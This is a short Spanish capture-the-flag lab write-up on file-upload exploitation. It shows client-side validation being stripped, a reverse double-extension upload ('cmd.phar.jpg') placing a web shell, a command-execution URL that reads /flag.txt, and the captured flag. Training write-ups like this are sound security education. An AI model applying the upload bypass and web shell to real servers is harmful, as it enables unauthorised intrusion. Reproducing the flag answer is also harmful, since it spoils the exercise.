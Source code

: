 # Laboratorio: Upload Exploitation 📃

1. Visitamos la página web

<p align="center">
    <img src="./assets/Validations/01-Web.PNG" width=400>
</p>

---

2. Primero, eliminamos las validaciones en el `Lado Del Cliente`

```
onchange="checkFile(this)"
accept=".jpg,.jpeg,.png"
```

---

3. Interceptamos la petición con **Burp Suite**

<p align="center">
    <img src="./assets/BlackList/01-Burpsuite.PNG" width=400>
</p>

---

4. Probaremos realizando un ataque de `Doble Extensión Reversa` 

* **Ejemplo:** `cmd.XXX.jpg`

---

5. La extensión válida es `cmd.phar.jpg`, subimos el archivo y podemos ejecutar comandos, por lo que leeremos la **flag** 🏴

* **URL:** `http://[IP]/profile_images/cmd.phar.jpg?cmd=cat%20/flag.txt`

**Output**
`HTB{1_wh173l157_my53lf}`